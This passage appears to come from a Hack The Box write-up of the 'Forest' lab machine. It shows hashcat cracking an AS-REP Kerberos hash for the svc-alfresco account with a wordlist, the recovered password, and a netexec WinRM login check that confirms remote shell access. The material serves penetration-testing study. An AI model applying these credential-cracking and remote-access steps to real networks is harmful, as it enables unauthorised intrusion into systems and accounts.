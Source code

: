 ```shell
* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB:e1765956ff8ea8dcc941...19a4e0
Time.Started.....: Tue Nov 19 22:19:16 2024 (6 secs)
Time.Estimated...: Tue Nov 19 22:19:22 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   772.1 kH/s (0.97ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4084736/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s456822 -> s3r3ndipit
Hardware.Mon.#1..: Util: 85%

Started: Tue Nov 19 22:18:54 2024
Stopped: Tue Nov 19 22:19:23 2024
```
Password for `svc-alfresco` cracked: `s3rvice`

## Foothold

### PS Remote

**Windows Remote Management** (WinRM) is a Windows-native protocol used for remote management. At its core, it utilizes the Simple Object Access Protocol (SOAP) to communicate with remote computers, servers, operating systems, and applications.

WinRM is a command-line tool that enables the following tasks:

1. Remotely interface with hosts, including workstations, servers, and any operating system that supports WinRM, using standard network channels and ports.
2. Execute commands on remote systems that are network-accessible but not local.
3. Monitor, manage, and configure servers, operating systems, and client machines from a remote location.

Using `netexec`, we quickly confirmed that the compromised account has remote management privileges on the target machine. This allows us to obtain a shell on the target using `evil-winrm`, which we will utilize later.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ netexec winrm 10.129.59.175 -u svc-alfresco -p 's3rvice'
WINRM       10.129.59.175   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.59.175   5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```
### Bloodhound
